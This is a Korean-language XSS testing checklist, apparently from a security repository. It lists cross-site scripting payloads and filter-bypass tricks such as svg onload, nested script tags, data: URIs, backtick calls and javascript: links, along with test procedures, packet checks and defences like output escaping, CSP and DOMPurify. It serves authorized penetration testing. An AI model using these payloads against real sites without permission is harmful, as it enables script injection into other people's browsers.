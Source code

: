 # XSS 점검 가이드 & 페이로드 모음 (Markdown 버전)

보안 점검 시 활용할 수 있는 **XSS 페이로드**, **점검 절차**, **대응 방안**을 한 문서로 정리했습니다.  
모든 예시는 **합법적이고 승인된 환경**에서의 연구/내부 점검 목적에만 사용하세요.




## 목차
- [개요](#개요)
- [추천 페이로드](#추천-페이로드)
- [점검 방법](#점검-방법)
- [상황별 점검 포인트](#상황별-점검-포인트)
- [패킷 관점 체크](#패킷-관점-체크)
- [대응 방안](#대응-방안)
- [유의 사항](#유의-사항)
- [참고](#참고)




## 개요
- 입력값이 **어느 컨텍스트**에 들어가는지(태그/속성/스크립트/URL 등)를 먼저 파악한 뒤, 해당 컨텍스트에서 **실행 가능**한 최소 페이로드부터 시도합니다.
- **패턴 기반 필터**만 믿지 말고, 아키텍처적으로 **신뢰되지 않은 입력을 HTML로 렌더링하지 않는** 방향을 우선 검토하세요.

> **주의**  
> 본 문서는 예시를 **코드 블록**으로만 제공합니다(자동 실행 없음). 승인되지 않은 시스템에 대한 테스트는 불법입니다.





## 추천 페이로드

### 1) 기본 테스트
```html
<script>alert(1111)</script>
```

### 2) `<script>` 태그가 차단될 때
```html
<details onpointerover=confirm(1111)></details>
```

### 3) 속성 값(value) 내부 삽입 (동작 유발 필요)
```html
" onkeydown=confirm(1111) contenteditable onfocus
```

### 4) 공백이 차단될 때
```html
<svg/onload=confirm(1111)/>
```

### 5) Polyglot XSS (컨텍스트 다중 호환)
> 여러 컨텍스트에서 동시에 유효하게 해석되도록 설계한 페이로드.  
> 프로젝트 성격에 맞춰 별도 섹션으로 확장하세요.





## 점검 방법

### A. 입력값 위치(컨텍스트) 파악
- **태그 속성 내부**
  ```html
  <input type="text" value="입력 값">
  ```
  따옴표 종료 후 이벤트 삽입:
  ```html
  <input value="test" onpointerover=confirm(1111)>
  ```

- **태그 외부(본문 영역)**
  ```html
  <a href="test.com">텍스트</a><script>alert(1111)</script>
  ```

### B. 필터링/치환 패턴 식별 및 우회
- 특수문자 제한(`"`, `<`, `(`, `=` 등) 시 **인코딩/대체 문자** 활용
- 이벤트 핸들러 제한(`onload`, `onerror` 등) 시 **대체 핸들러** 검토(예: `onpointerover`, `onkeydown`)
- `<script>` 차단 시 **대체 태그/기능** 활용
  ```html
  <svg onload=confirm(1111)>
  ```
  ```html
  <meta http-equiv="refresh" content="0;url=data:text/html,<script>alert(1111)</script>">
  ```

- **삭제/치환 기반 필터** 우회
  ```html
  <scr<script>ipt>alert(1111)</scr<script>ipt>
  ```

- **알림창 함수 필터링** 우회(속성/객체 경유)
  ```html
  <svg onload="window "/>
  ```

### C. 추가 문자열 주입(접두/접미) 대응
- 뒤에 문자열이 붙는 경우: `<!--` 등 **주석 처리**로 종료
- 앞에 붙는 경우: **태그 닫기** 후 새로운 구문으로 이탈





## 상황별 점검 포인트

- **특수문자 필터링**: `"`, `'`, `<>`, `()`, `:`, `=`
- **응답 맥락 탈출**: `" />`, `</script>` 등으로 컨텍스트 이탈 가능성 확인
- **대소문자 혼용**: `<sCriPt>` 등
- **이벤트 핸들러 필터링**: `onload`, `onerror`, `onclick` 차단 시 `ondrag`, `onfocus`, `onpointerover` 등 대체 검토
- **인코딩 시도**
  - URL: `%3Cscript%3E`
  - 유니코드: `<`
  - HTML 엔티티: `&#x3C;`
  - Base64: `data:text/html;base64,...`
- **태그 필터링 우회**: `<script>`, `<img>`, `<svg>` 차단 시 `<details>`, `<object>`, `<embed>` 등
- **하이퍼링크 기반**
  ```html
  <a href="javascript:confirm(1)">Click</a>
  ```
- **폼 전송 기반**
  ```html
  <form action="data:text/html,<script>alert(1111)</script>">
    <input type="submit">
  </form>
  ```
- **공백 필터링 우회**: `<svg/onload=...>` (환경/브라우저 의존성 주의)
- **hidden 필드 탈출 / iframe·object·embed·meta의 `data:` 스킴 활용** (환경 의존)

<details>
<summary><strong>추가 사례 모음 (접기/펼치기)</strong></summary>

- 알림창 전부 필터링 시 **리다이렉트/네비게이션** 등 대체 효과 검토  
  ```html
  <img src=x onerror="location.href='https://example.org'">
  ```

- `()` 필터링 시 **백틱** 활용 가능한지 확인  
  ```html
  alert`1`
  ```

- **응답 값 뒤에 문자열이 붙어 실패**할 때: 주석/닫기 태그로 무력화  
  ```html
  <img src onerror=prompt(1)<!--
  ```

- `<` 치환 시 앞에 `<` 추가 시도  
  ```html
  <x<svg/onload=prompt(1)/>/>
  ```
</details>





## 패킷 관점 체크
- **`location.hash` 사용 여부**: 응답 내 해당 참조가 있으면 `#<payload>`로 DOM XSS 가능성
- **POST→GET 변환**: 동일 파라미터가 GET으로도 반영되는지 확인 (렌더링 경로 차이로 성공 가능성↑)
- **전송 패킷엔 없지만 응답에 페이로드가 존재**: 응답에 있던 값을 **직접 전송**하여 반영되는지 재확인





## 대응 방안 (필수)
- **출력 이스케이프**: 컨텍스트별 적절한 이스케이프 적용
- **CSP(Content Security Policy)**: 스크립트 소스/인라인 제한, 보고 엔드포인트 설정
- **Sanitizer 적용**: 검증된 라이브러리(예: DOMPurify) 사용
- **아키텍처 개선**: 신뢰되지 않은 입력을 HTML로 렌더링하지 않도록 템플릿/렌더 경계 재설계

> **권장**  
> 패턴 기반 필터에만 의존하지 말고, **출력 컨텍스트 보안**과 **CSP**를 병행하세요.





## 유의 사항
- 고객사/사내 식별 가능 정보(도메인, 스크린샷, 내부 경로, 로그 등)는 **공개 저장소에 포함하지 마세요**.
- Git 이력(History)에 남은 민감 정보는 **레포 삭제/히스토리 재작성** 없이 완전 제거되지 않을 수 있습니다.





## 참고
- PortSwigger XSS Cheat Sheet  
  https://portswigger.net/web-security/cross-site-scripting/cheat-sheet



© 2025 XSS Checklist · 연구/내부 점검 용도

